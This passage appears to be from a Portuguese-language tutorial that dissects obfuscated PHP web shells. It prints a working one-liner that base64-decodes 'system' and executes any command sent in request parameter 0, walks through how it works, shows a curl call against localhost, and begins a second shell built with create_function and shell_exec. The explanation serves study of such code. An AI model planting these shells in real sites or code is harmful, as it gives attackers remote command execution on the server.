 **Debugar o código:**

Code:
```php
(error_reporting(0).($__=@base64_decode("c3lzdGVt"))
.print($__(isset($_REQUEST[0])?$_REQUEST[0]:NULL)).exit);
```

1. Desativa erros e decodifica string
- `(error_reporting(0))` e `@`: Desativa a exibição de erros PHP.
- `($__=@base64_decode("c3lzdGVt"))`: Decodifica a string base64 "c3lzdGVt" para "system".
2. Executa comando system
- `print($__(isset($_REQUEST[0])?$_REQUEST[0]:NULL))`:
    - Verifica se existe um parâmetro 0 na requisição `($_REQUEST[0])`.
    - Se existir, executa o comando "system" com esse parâmetro.
    - Se não existir, não executa comando algum.
3. Encerra a execução
- `exit`: Encerra a execução do script.

Funcionamento:
1. O atacante envia uma requisição (`$_REQUEST`) HTTP com um parâmetro 0 contendo o comando a ser executado.
2. O código PHP executa o comando "system" com o parâmetro recebido.

Functions:
- ERROR_REPORTING <https://secure.php.net/manual/pt_BR/function.error-reporting.php>
- BASE64_DECODE <http://php.net/manual/pt_BR/function.base64-decode.php>
- ISSET <http://php.net/manual/pt_BR/function.isset.php>
- PRINT <http://php.net/manual/pt_BR/function.print.php>
- SYSTEM <http://php.net/manual/pt_BR/function.system.php>
- EXIT <http://php.net/manual/pt_BR/function.exit.php>
- ERROR CONTROL @ <https://www.php.net/manual/pt_BR/language.operators.errorcontrol.php>
- $_REQUEST <https://www.php.net/manual/pt_BR/reserved.variables.request.php>
    
Esquema usando `base64` para oculta valores: 

| BASE64   | VALUE    |
| -------- | -------- |
| c3lzdGVt | `system` |


Execução: 
```bash
curl -v 'http://localhost/shell.php?0=id'
```

---

#### EXEMPLO 03

**Debugar o código:**

Code:
```php
(error_reporting(0)).($_=$_REQUEST[0])
.($__=@create_function('$_',base64_decode("ZWNobyhzaGVsbF9leGVjKCRfKSk7"))).($__($_).exit);
```
